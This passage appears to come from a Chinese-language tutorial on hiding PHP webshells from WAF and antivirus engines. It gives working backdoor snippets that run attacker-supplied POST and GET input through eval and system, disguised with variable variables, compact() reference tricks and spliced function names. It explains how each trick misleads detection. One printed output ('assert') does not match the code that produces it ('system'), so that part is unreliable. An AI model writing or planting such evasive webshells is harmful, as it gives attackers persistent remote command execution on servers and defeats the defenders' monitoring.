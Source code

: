 ### 5.1 简单可变变量

什么叫可变变量呢？看一下具体例子就明白了：

```php
$f = 'hello';    //变量名为f，变量值为Hello
$$f = 'AabyssZG';  //变量名为Hello（也就是$f的值），值为AabyssZG
echo $hello;     //输出AabyssZG
```

那要怎么利用这个特性呢？如下：

```php
$f ='hello';
$$f = $_POST['aabyss'];
eval($hello);   //eval($_POST['aabyss']); 
```

### 5.2 数组+变量引用混淆

上文提到，可以通过 `compact` 创建一个包含变量名和它们的值的数组

那就可以用 `compact` 创建一个包含恶意函数和内容的数组，再引用出来拼接成语句即可

```php
$z = "system";                        //配合其他姿势，将system高危函数传给z
$zhixin  = &$z;
$event = 'hahaha';

$result = compact("event", "zhixin"); //通过compact创建数组
$z = 'wahaha';                        //我将变量z进行修改为'wahaha'

$f = $result['zhixin'];
$f($_POST['aabyss']);                  //system($_POST['aabyss']); 
```

根据5.1学到的内容，可以发现传入数组后，函数内容被替换是不会影响数组中的内容的

于是先用变量 `zhixin` 来引用变量 `z` 然后通过 `compact` 创建为数组，接下来再将变量 `z` 附上新的内容 `wahaha` ，传统的WAF追踪变量的内容时候，就会让查杀引擎误以为数组中的值不是 `system` 而是  `wahaha` ，从而达到WebShell免杀

## 6# 数组绕过

先将高危函数部分存储在数组中，等到时机成熟后提取出来进行拼接

### 6.1 一维数组

```php
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

数组内容如下：

```php
Array ( [0] => Array ( [a] => assert($_GET['aabyss']) ) )
```
